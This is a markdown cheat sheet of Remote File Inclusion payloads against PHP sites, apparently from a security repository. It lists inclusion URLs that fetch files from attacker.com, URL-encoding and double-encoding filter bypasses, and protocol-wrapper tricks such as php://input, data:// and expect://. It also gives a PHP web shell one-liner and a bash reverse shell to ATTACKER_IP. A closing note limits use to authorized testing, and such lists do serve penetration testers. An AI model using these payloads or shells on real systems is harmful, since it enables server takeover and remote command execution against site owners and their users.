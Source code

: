 # Remote File Inclusion (RFI) Payloads

Below is a collection of RFI (Remote File Inclusion) payloads that can be used for testing and educational purposes. These payloads attempt to include remote files on a vulnerable system.

## Basic RFI Payloads

```
http://vulnerable-site.com/index.php?page=http://attacker.com/malicious.txt
http://vulnerable-site.com/index.php?page=\\attacker.com\share\malicious.txt
http://vulnerable-site.com/index.php?page=//attacker.com/malicious.txt
```

## Protocol Wrappers

```
http://vulnerable-site.com/index.php?page=ftp://attacker.com/malicious.txt
http://vulnerable-site.com/index.php?page=php://input [with POST data]
http://vulnerable-site.com/index.php?page=data://text/plain,<?php phpinfo();?>
```

## Null Byte Termination (for older PHP versions)

```
http://vulnerable-site.com/index.php?page=http://attacker.com/malicious.txt%00
http://vulnerable-site.com/index.php?page=http://attacker.com/malicious.txt%00.jpg
```

## Bypassing Filters

### Using URL Encoding
```
http://vulnerable-site.com/index.php?page=h%74%74p%3a%2f%2fattacker.com%2fmalicious.txt
```

### Using Double Encoding
```
http://vulnerable-site.com/index.php?page=%2568%2574%2574%2570%253a%252f%252fattacker.com%252fmalicious.txt
```

### Appending Query Strings
```
http://vulnerable-site.com/index.php?page=http://attacker.com/malicious.txt?
http://vulnerable-site.com/index.php?page=http://attacker.com/malicious.txt?param=value
```

## Common RFI Exploitation Files

### PHP Shell
```
http://attacker.com/shell.txt contents:
<?php system($_GET['cmd']); ?>
```

### Reverse Shell
```
http://attacker.com/revshell.txt contents:
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'"); ?>
```

## Prevention Bypass Techniques

### Using Alternative Protocols
```
http://vulnerable-site.com/index.php?page=expect://ls
http://vulnerable-site.com/index.php?page=ssh2.shell://attacker.com:22
```

### Using Data URIs
```
http://vulnerable-site.com/index.php?page=data:text/plain,<?php echo shell_exec($_GET['cmd']); ?>
```

## Important Notes

- These payloads are for educational and authorized testing purposes only
- RFI vulnerabilities can lead to complete system compromise
- Modern PHP configurations often disable remote file inclusion by default (allow_url_include=Off)
- Always test in controlled environments with proper authorization
- Many WAFs and security systems detect and block RFI attempts

